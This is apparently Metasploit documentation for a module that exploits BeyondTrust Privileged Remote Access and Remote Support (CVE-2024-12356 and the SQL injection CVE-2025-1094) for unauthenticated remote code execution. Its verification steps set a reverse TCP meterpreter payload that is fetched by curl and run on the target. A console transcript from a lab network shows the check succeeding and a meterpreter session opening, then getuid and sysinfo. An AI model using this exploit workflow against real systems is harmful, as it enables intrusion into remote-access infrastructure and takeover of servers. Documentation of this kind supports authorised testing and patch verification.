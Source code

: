 ## Vulnerable Application
This exploit achieves unauthenticated remote code execution against BeyondTrust Privileged Remote
Access (PRA) and Remote Support (RS), with the privileges of the site user of the targeted BeyondTrust
product site. This exploit targets PRA and RS versions `24.3.1` and below.

## Testing
This exploit was tested against a vulnerable BeyondTrust Remote Support target running version `24.1.2`. To install
a virtual appliance, follow [this documentation](https://docs.beyondtrust.com/rs/docs/va-install). You will first need
to acquire the relevant software packages.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/beyondtrust_rce_cve_2024_12356`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Options

### TargetCompanyName
If set, use this name value to identify the company name of the deployed site (e.g. `mytestcompany`).
By default, this is auto discovered.

### TargetServerFQDN
If set, use this FQDN value to identify the FQDN of the deployed site (e.g. `support.mytestcompany.com`).
By default, this is auto discovered.

### LeverageCVE_2024_12356
By default, this exploit does not leverage the argument injection vulnerability CVE-2024-12356, and instead exploits the
SQLi vulnerability CVE-2025-1094 directly. Enabling this option will cause this exploit to leverage CVE-2024-12356 during
the exploitation of the SQLi vulnerability CVE-2025-1094. In either case the SQLi vulnerability CVE-2025-1094 is leveraged
to achieve RCE.

## Scenarios

### Default

```
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > show options 

Module options (exploit/linux/http/beyondtrust_rce_cve_2024_12356):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.105   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                       html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      usKuEPuSzgnx     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > check
[*] 192.168.86.105:443 - The target appears to be vulnerable. Detected version 24.1.2
msf6 exploit(linux/http/beyondtrust_rce_cve_2024_12356) > exploit
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 24.1.2
[*] Using company name: mytestcompany
[*] Sending stage (3045380 bytes) to 192.168.86.105
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.105:10104) at 2025-01-31 10:51:38 +0000

meterpreter > getuid
Server username: mytestcompany
meterpreter > sysinfo
Computer     : 192.168.86.105
OS           : Gentoo 2.14 (Linux 6.1.76-bt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
